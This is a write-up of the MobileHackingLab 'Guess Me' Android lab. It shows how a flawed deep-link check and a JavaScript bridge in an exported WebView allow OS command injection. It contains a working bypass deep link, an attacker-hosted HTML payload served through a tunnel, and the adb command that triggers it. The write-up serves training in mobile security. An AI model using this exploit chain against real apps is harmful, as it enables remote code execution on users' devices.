# Guess Me

## Objective

Exploit a Deep Link Vulnerability for Remote Code Execution: Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, allowing you to execute remote code and gain unauthorized access.

## Approach

1. Analyze Deep Link Function: Scrutinize the app's deep link functionality for vulnerabilities.
2. Craft Malicious Deep Links: Develop deep links to manipulate the game and execute remote code.
3. Test and Validate: Execute your deep link strategies within the provided lab environment.
4. Submit your solution via 3. Assessment, to get a certificate of completion.

## Hint

- Focus on Deep Link Processing: Pay attention to how deep links are processed and validated in the app.
- Code Review: Examine the code using reverse engineering tools to find the vulnerability point.

## Reconnaissance

### Opening Up the App

Let's try opening the app and see what we can find. The app is a number guessing game.



Guessing the correct number does not reveal anything.



Pressing new game would just restart the game.


Pressing the `i` or information button, we'll get redirected here:



There's a link that will redirect to `mobilehackinglab.com` official website.

### Analyzin the App with MobSF

Let's try analyzing the app using MobSF:



From the hints that are given by the problem setter, there is one Manifest warning that correlates with this:





The `WebviewActivity` is not protected with `android:exported=true` resulting in said activity to be shared with other apps on the device therefore leaving it accessible to any other application on the device.

Alright, next in the Core Analysis, we can see that this `WebviewActivity.java` is implemented insecurely. A user controlled code can be executed in the WebView, which itself is a critical security vulnerability.



Let's analyze this class more to know more about the vulnerability:

1. Analyzing vulnerable code snippets that can lead to RCE:

    

    First, the `handleDeepLink` method:

    ```java
    private final void handleDeepLink(Intent intent) {
        Uri uri = intent != null ? intent.getData() : null;
        if (uri != null) {
            if (isValidDeepLink(uri)) {
                loadDeepLink(uri);
            } else {
                loadAssetIndex();
            }
        }
    }
    ```

    This method handles the DeepLink views. If it passes the `isValidDeepLink`, it will load the DeepLink using `loadDeepLink`, and if it doesn't, it will load the asset by using `loadAssetIndex`. We will get into these methods shortly.

    Next, the `isValidDeepLink` method:

    ```java
    private final boolean isValidDeepLink(Uri uri) {
        if ((!Intrinsics.areEqual(uri.getScheme(), "mhl") && !Intrinsics.areEqual(uri.getScheme(), "https")) || !Intrinsics.areEqual(uri.getHost(), "mobilehackinglab")) {
            return false;
        }
        String queryParameter = uri.getQueryParameter("url");
        return queryParameter != null && StringsKt.endsWith$default(queryParameter, "mobilehackinglab.com", false, 2, (Object) null);
    }
    ```

    This handles the validation of the DeepLink. In theory this will only allow links like `mhl://mobilehackinglab/?url=https://mobilehackinglab.com`. But, there is a bypass, we can actually craft something like this: `mhl://mobilehackinglab/?url=https://attacker-server.com/mobilehackinglab.com`, in which we can make the folder structure of the `attacker-server` infrastructure look like:

    ```bash
    mkdir mobilehackinglab.com
    touch mobilehackinglab.com/index.html
    python -m http.server 6060
    ```

    Next, the `loadAssetIndex()` method:

    ```java
    private final void loadAssetIndex() {
        WebView webView = this.webView;
        if (webView == null) {
            Intrinsics.throwUninitializedPropertyAccessException("webView");
            webView = null;
        }
        webView.loadUrl("file:///android_asset/index.html");
    }
    ```

    This will load a predefined `index.html` if the previous `isValidDeepLink` check fails. The `index.html` looks like this:

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
    </head>
    <body>

    <p id="result">Thank you for visiting</p>

    <!-- Add a hyperlink with onclick event -->
    <a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

    <script>

        function loadWebsite() {
        window.location.href = "https://www.mobilehackinglab.com/";
        }

        // Fetch and display the time when the page loads
        var result = AndroidBridge.getTime("date");
        var lines = result.split('\n');
        var timeVisited = lines[0];
        var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
        document.getElementById('result').innerText = fullMessage;

    </script>

    </body>
    </html>
    ```

    This `index.html` has a JavaScript that calls `AndroidBridge.getTime("date")`. This part is and we will dive into this in point number 2.

2. JavaScript code execution inside the WebView is allowed:

    Take a look at these MobSF highlighted parts of the class:

    

    These lines of code connects a Java class to the JavaScript environment of a WebView, allowing JavaScript code execution to access specific methods of the `MyJavaScriptInterface` class such ad `getTime`. Let's take a look at the `MyJavaScriptInterface` class to understand what it actually does:

    

    The `getTime` is vulnerable to OS Command Injection/Remote Code Execution. Take a look back at the `index.html`, it uses `AndroidBridge.getTime("date")`, we can change `date` to `id` for example.

## Exploitation

Let's use this:

```bash
mkdir mobilehackinglab.com
touch mobilehackinglab.com/index.html
python -m http.server 6060
```

And use this `index.html`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>

<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

<script>

    function loadWebsite() {
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("id");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

And then host it. After that, we can use this DeepLink: `mhl://mobilehackinglab?url=https://cent-classic-vic-controllers.trycloudflare.com/mobilehackinglab.com`.

We can use this `adb` command:

```pwsh
adb shell am start -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=https://cent-classic-vic-controllers.trycloudflare.com/mobilehackinglab.com" com.mobilehackinglab.guessme/.WebviewActivity
```

After we run that `adb` command we get the ID of the phone:

